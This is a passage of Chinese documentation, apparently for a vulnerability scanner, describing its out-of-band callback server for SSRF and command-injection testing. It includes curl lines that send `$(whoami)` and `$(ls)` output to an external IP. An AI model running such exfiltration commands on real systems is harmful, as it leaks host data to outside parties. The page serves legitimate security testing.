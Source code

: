 ### 反连平台的 HTTP 访问记录功能

先按照页面上的提示先测试下反连平台的功能，运行 `curl -v http://140.143.224.171:4445/p/89acfe/H34v/`

```bash
$ curl -v http://140.143.224.171:4445/p/89acfe/H34v/
*   Trying 140.143.224.171...
* TCP_NODELAY set
* Connected to 140.143.224.171 (140.143.224.171) port 4445 (#0)
> GET /p/89acfe/H34v/ HTTP/1.1
> Host: 140.143.224.171:4445
> User-Agent: curl/7.54.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline'; object-src 'self'; style-src 'self' 'unsafe-inline'; img-src 'self'; media-src 'self'; frame-src 'self'; font-src 'self' data:; connect-src 'self'
< Content-Type: application/json
< X-Content-Type-Options: nosniff
< X-Frame-Options: SAMEORIGIN
< X-Xss-Protection: 1; mode=block
< Date: Sun, 08 Sep 2019 01:28:16 GMT
< Content-Length: 22
<
* Connection #0 to host 140.143.224.171 left intact
{"code":0,"data":null}%
```

然后在左边的 `HTTP` 一栏中就可以看到了访问记录

![](../assets/scenario/reverse_server_ssrf/15679061607483.jpg)

而且反连平台支持在 url 后面随意添加参数，比如 `http://140.143.224.171:4445/p/89acfe/H34v/$(whoami)`，这样在测试一些命令执行漏洞的时候，就很方便的将一些执行结果带出来。

如果 url 位置的长度不够，还可以使用 POST 方法。比如 `curl -v http://140.143.224.171:4445/p/89acfe/H34v/ -d "$(ls)"` 就可以看到访问记录是这样的。

![](../assets/scenario/reverse_server_ssrf/15679064342320.jpg)
